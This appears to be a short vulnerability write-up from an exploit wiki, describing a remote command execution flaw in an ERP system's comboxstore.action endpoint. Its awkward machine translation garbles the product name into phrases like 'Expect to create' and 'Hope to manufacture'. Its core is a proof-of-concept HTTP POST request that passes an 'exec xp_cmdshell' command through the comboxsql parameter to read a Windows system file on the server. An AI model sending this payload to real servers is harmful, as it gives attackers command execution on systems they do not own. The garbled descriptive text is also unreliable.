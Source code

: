 # Expect to create ERP comboxstore.action remote command execution vulnerability

## Vulnerability Description

I hope to create a remote command execution vulnerability in the ERP comboxstore.action interface. The attacker can obtain server permissions and execute any commands through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Hope to manufacture ERP </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691818989927-dac8d740-682d-400c-a5c9-4c3cc5d53304.png)

Verify POC

```php
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691819017786-426f8cd5-38b7-4c1c-91de-912c1b5a68fb.png)